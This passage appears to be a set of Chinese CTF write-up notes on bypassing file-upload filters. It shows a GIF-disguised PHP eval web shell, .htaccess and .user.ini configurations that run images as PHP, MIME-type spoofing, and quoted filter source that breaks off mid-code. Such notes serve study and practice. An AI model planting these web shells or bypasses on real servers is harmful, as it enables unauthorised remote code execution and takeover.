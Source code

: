 ### 极客大挑战 2019]Upload

上传一句话，

GIF89a? <script language="php">eval($_REQUEST[shell])</script>

bp抓包改成image/jpeg

后缀名修改很多，符号<修改绕过，php7，phtml等等，

### [MRCTF2020]你传你🐎呢 [GXYCTF2019]BabyUpload

上传.htaccess

```
<FilesMatch "1.jpg">  
        SetHandler application/x-httpd-php  
</FilesMatch>
```

传1.jpg   GIF89a? <script language="php">eval($_REQUEST[shell])</script>

蚁剑连接拿下

### [SUCTF 2019]CheckIn

上传绕过，随便传，有列出文件名和目录，有index.php，是.user.ini型

先传.user.ini

```
GIF89a
auto_prepend_file=a.jpg
```

然后传a.jpg

GIF89a? <script language="php">eval($_REQUEST[shell])</script>

这种马可以绕过许多限制。最后按照上传目录/index.php连蚁剑



### ciscn2021_UPLOAD

知识点：

index上传检测，要求正方形，并且不能有c/i/h/ph

```php
index.php
<?php
...
if($ctf=="upload") {
    if ($_FILES['postedFile']['size'] > 1024*512) {
        die("这么大个的东西你是想d我吗？");
    }
    $imageinfo = getimagesize($_FILES['postedFile']['tmp_name']);
    if ($imageinfo === FALSE) {
        die("如果不能好好传图片的话就还是不要来打扰我了");
    }
    if ($imageinfo[0] !== 1 && $imageinfo[1] !== 1) {
        die("东西不能方方正正的话就很讨厌");
    }
    $fileName=urldecode($_FILES['postedFile']['name']);
    if(stristr($fileName,"c") || stristr($fileName,"i") || stristr($fileName,"h") || stristr($fileName,"ph")) {
        die("有些东西让你传上去的话那可不得了");
    }
    $imagePath = "image/" . mb_strtolower($fileName);
    if(move_uploaded_file($_FILES["postedFile"]["tmp_name"], $imagePath)) {
        echo "upload success, image at $imagePath";
```

[2020强网杯]: https://www.gem-love.com/ctf/2576.html#Funhash
[^PHP花式绕过大全]: https://blog.csdn.net/xiayu729100940/article/details/102619255
[PHP中MD5碰撞Bypass]: https://evi0s.com/2019/02/09/md5-collisions/
[2021陕西省大学生网络安全技能大赛 Web ez_checkin]: https://www.cnblogs.com/seizer/p/14840901.html
[难版pop链]: https://www.136.la/nginx/show-127914.html
[PHP之十六个魔术方法详解]:  https://segmentfault.com/a/1190000007250604